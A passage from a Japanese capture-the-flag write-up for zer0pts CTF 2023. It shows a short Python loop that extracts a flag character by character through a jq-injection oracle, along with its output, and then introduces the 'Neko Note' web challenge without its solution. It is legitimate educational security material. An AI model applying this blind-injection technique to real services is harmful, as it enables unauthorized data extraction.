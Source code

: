 ```python
known = "zer0pts{"
while not known.endswith("}"):
    for c in CHARS:
        if is_ok(known + c):
            known += c
            break
    print(known)
print("Flag: " + known)
```

```shell
$ python exploit.py
zer0pts{1
zer0pts{1d
zer0pts{1dk
zer0pts{1dk_
... snip ...
zer0pts{1dk_why_1t_uses_jq
zer0pts{1dk_why_1t_uses_jq}
Flag: zer0pts{1dk_why_1t_uses_jq}
```

### フラグ

```
zer0pts{1dk_why_1t_uses_jq}
```

### 感想

jqのコメント機能がドキュメントになぜか書かれておらず、また、`/* */`や`//`でコメントアウトができなかったので、できないんだと思い込んでしまい、時間をかなり溶かしました。悲しい。

問題自体は、SQLiの知見の転用ということで教育的で好きです。

## [web] Neko Note

181 pts, 26 solves

問題文:

> I made another note app.
> `http://neko-note.2023.zer0pts.com:8005/`

### 問題概要

タイトルのねこのしっぽアニメーションがかわいいノートアプリケーションが与えられます。

![](/images/2023/20230717-zer0pts-ctf-neko-note-01.png)

ゴールはadmin botが投稿するノートに書かれたフラグを奪取することです。

### 解法

ノートのレンダリング処理は以下のとおりです。


[^top-01]: 一方で、ひとりでもくもくと問題に挑んでフラグを取りに行くのも達成感があって気持ちが良いので、どちらが良いかは微妙なところ。
[^warmuprofile-01]: writeupを書いてる途中で気づいたんですが、warmup profileでなくてwarmu**p**rofileだったのか。文字遊び好きです。
[^warmuprofile-02]: [作問者writeup](https://nanimokangaeteinai.hateblo.jp/entry/2023/07/17/141919#Web-137-Warmuprofile-48-solves)によれば、2つセッションつくるのが想定だったみたいです。たしかに。
[^jqi-01]: レスポンス内容の差異がなかったとしてもtime-basedなオラクルはたぶん構成可能です。やりたくなかったので、親切設計でありがたかったです。
[^plain-blog-01]: 歴史的経緯・慣習的なものなので必要という側面もあるかもしれないですが、それはそれとして。